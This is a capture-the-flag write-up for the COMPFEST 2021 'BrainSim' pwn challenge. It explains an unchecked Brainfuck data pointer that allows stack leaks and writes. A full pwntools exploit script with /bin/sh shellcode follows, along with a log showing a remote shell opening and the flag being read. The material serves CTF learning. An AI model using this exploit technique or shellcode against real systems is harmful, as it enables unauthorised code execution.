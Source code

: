 ## BrainSim

> Points: 500  
>  
> Solves: 1

### Description:  
Heyy! So, I found this BF simulator thing. I thought it's hackable-ish?
Because my friend told me there's flag file in it. Maybe you could help me
while I'm having my breakfast ? Ehehe...

nc 103.152.242.242 29461

Author: xMaximusKl

Hint: Simple BOF using brainfuck, I wonder what you could with that ? Maybe
hanging around in a forbidden place ? :)

### Attachments:  
```  
brainsim-master-public.zip  
```

I was able to start the shell in my local environment but couldn't get the
flag from the server during the competition time.  
After the competition, I managed to start the shell, and when I checked the
binary of the server, the binary of the server and the binary of attachment
were different.

```  
$ ls -l  
total 48  
-rwxr-xr-x 1 0 0 21064 Sep 12 04:47 BrainSim　　　<--- The size is different.  
-rw-r--r-- 1 0 0  2261 Sep 12 04:47 BrainSim.c  
```

When I checked with the administrator on Discord, it seems that the
administrator forgot to update the attachment.

I got the binaries from the server and checked the difference between the two
binaries.  
The following parts of the `Interpret` function are different. There is one
more `getchar()` in the attachment binary.

```  
         case 0x2c:  
           iVar2 = getchar();  
           mem[mp] = (char)iVar2;  
           getchar();                  <----- this part  
           ip = ip + 1;  
           break;  
```

Attach the binary `BrainSim_server` I got from the server.

## Analysis:

This is a challenge with Brainfuck.  
Since NX is disabled, launch the shellcode on the stack BoF.

```  
$ checksec BrainSim  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      PIE enabled  
   RWX:      Has RWX segments  
```

Brainfuck uses the following variables.  
```  
ip:     Instruction pointer  
ip_end: End position of instruction pointer  
mp:     Data pointer  
brack:  Flag to check the number before and after the bracket  
```

Since the range of the value of data pointer`mp` is not checked when executing
the Brainfuck code, I can read the value on the stack and write arbitrary data
by specifying the following character string.  
```  
.,[>.,]  
```

## Solution:

First I used `.,[>.,]` to leak the stack address (mp = 0 address).

```  
0x7fffffffddb0: 0x0000000000000000      0x0000000000000000  
0x7fffffffddc0: 0x0000000000000000      0x0000000000000000  
0x7fffffffddd0: 0x00007fffffffdee0      0x00007fffffffd5d0　<--- Leak this
0x7fffffffd5d0.  
0x7fffffffdde0: 0x00007fffffffde00      0x00005555555556ed  
0x7fffffffddf0: 0x00007fffffffdee0      0x3100000000000000  
0x7fffffffde00: 0x0000555555555700      0x00007ffff7a03bf7  
```

Then I used `,[>,]` to write the shellcode and then change the return address
of the `Interpret` function to the leaked stack address.

```  
0x7fffffffd5d0: 0x622fb84852d23148      0x485068732f2f6e69  <--- shellcode  
0x7fffffffd5e0: 0x48e689485752e789      0x414141050f3b428d  
0x7fffffffd5f0: 0x4141414141414141      0x4141414141414141  
...  
0x7fffffffddb0: 0x4141414141414141      0x4141414141414141  
0x7fffffffddc0: 0x4141414141414141      0x4141414141414141  
0x7fffffffddd0: 0x4242424242424242      0x4242424242424242  
0x7fffffffdde0: 0x4242424242424242      0x00007fffffffd5d0　<--- Change from
0x5555555556ed to 0x7fffffffd5d0  
0x7fffffffddf0: 0x00007fffffffdee0      0x3100000000000000  
0x7fffffffde00: 0x0000555555555700      0x00007ffff7a03bf7  
```

I can start the shellcode by returning from the `Interpret` function to the
`main` function with the `Exit` function.

## Exploit code:  
```python  
from pwn import *

#context(os='linux', arch='amd64')  
#context.log_level = 'debug'

BINARY = './BrainSim'  
elf  = ELF(BINARY)

shellcode =
'\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x8d\x42\x3b\x0f\x05'

if len(sys.argv) > 1 and sys.argv[1] == 'r':  
 HOST = "103.152.242.242"  
 PORT = 29461  
 s = remote(HOST, PORT)  
 REMOTE = True  
else:  
 s = process(BINARY)  
 libc = elf.libc  
 REMOTE = False

def Interpret_code(code):  
 s.sendlineafter("Input : ", "1")  
 s.sendlineafter("Code : ", code)

def Make_string(s0):  
 s1 = ""  
 for i in range(len(s0)):  
   s1 += s0[i] + s0[i]  
 return s1

if REMOTE:  
 # stack leak  
 Interpret_code(".,[>.,]")  
 s.sendline("A"*0x810+"\x00"*2)

 s.recvuntil("Output: " + "\x00"*0x800)  
 s.recv(8)  
 stack_leak = u64(s.recv(8))  
 print "stack_leak =", hex(stack_leak)

 Interpret_code(",[>,]")  
 buf  = shellcode  
 buf += "A"*(0x800 - len(buf))  
 buf += "B"*0x18  
 buf += p64(stack_leak)  
 s.sendline(buf)

else:  
 # stack leak  
 Interpret_code(".,[>.,]")  
 s.sendline("AA"*0x810+"\x00")

 s.recvuntil("Output: " + "\x00"*0x800)  
 s.recv(8)  
 stack_leak = u64(s.recv(8))  
 print "stack_leak =", hex(stack_leak)

 Interpret_code(",[>,]")  
 buf  = Make_string(shellcode)  
 buf += "AA"*(0x800 - len(buf)/2)  
 buf += "BB"*0x18  
 buf += Make_string(p64(stack_leak)[:-1]) + "\n"  
 s.sendline(buf)

s.interactive()

```

## Results:  
```bash  
mito@ubuntu:~/CTF/COMPFEST_CTF_2021/Pwn_BrainSim/brainsim-master-
public/public$ python solve.py r  
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_BrainSim/brainsim-master-
public/public/BrainSim'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      PIE enabled  
   RWX:      Has RWX segments  
[+] Opening connection to 103.152.242.242 on port 29461: Done  
stack_leak = 0x7ffd02a75070  
[*] Switching to interactive mode

Output: $ ls -l  
total 48  
-rwxr-xr-x 1 0 0 21064 Sep 12 04:47 BrainSim  
-rw-r--r-- 1 0 0  2261 Sep 12 04:47 BrainSim.c  
drwxr-xr-x 2 0 0  4096 Sep 12 04:40 bin  
drwxr-xr-x 2 0 0  4096 Sep 12 04:40 dev  
-r--r--r-- 1 0 0    56 Sep 12 04:47 flag.txt  
lrwxrwxrwx 1 0 0     7 Sep 12 04:40 lib -> usr/lib  
lrwxrwxrwx 1 0 0     9 Sep 12 04:40 lib32 -> usr/lib32  
lrwxrwxrwx 1 0 0     9 Sep 12 04:40 lib64 -> usr/lib64  
lrwxrwxrwx 1 0 0    10 Sep 12 04:40 libx32 -> usr/libx32  
-rwxr-xr-x 1 0 0   338 Sep 12 04:47 run.sh  
drwxr-xr-x 6 0 0  4096 Sep 12 04:40 usr  
$ cat flag.txt  
COMPFEST13{570PPPP_I7___937_0U7_0f_my_H34d___b6fc1236d6}  
```

The administrator sent me the Exploit code, so I attach `exploit.py`.  
Thank you for your polite response even after the competition.

## Reference:  
https://en.wikipedia.org/wiki/Brainfuck

https://www.notion.so/RCTF-2020-acfcdd0de8534ed0a7caef3549088281  

Original writeup
(https://github.com/mito753/CTF/tree/main/2021/COMPFEST_CTF_2021/Pwn_BrainSim).